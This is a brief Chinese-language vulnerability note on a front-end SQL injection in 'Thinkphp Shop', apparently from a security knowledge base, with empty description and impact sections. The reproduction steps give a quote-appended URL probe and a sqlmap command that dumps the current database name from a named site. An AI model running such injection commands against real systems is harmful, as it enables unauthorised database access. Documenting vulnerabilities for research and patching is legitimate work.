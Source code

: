 ```yaml
---
title: Thinkphp Shop前台SQL注入
id: zhfly3180
---
```


# Thinkphp Shop前台SQL注入

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

http://www.0-sec.org/mobile/index/index2/id/1'

sqlmap -u "http://www.0-sec.org/mobile/index/index2/id/1*" --random-agent --batch --dbms "mysql" --current-db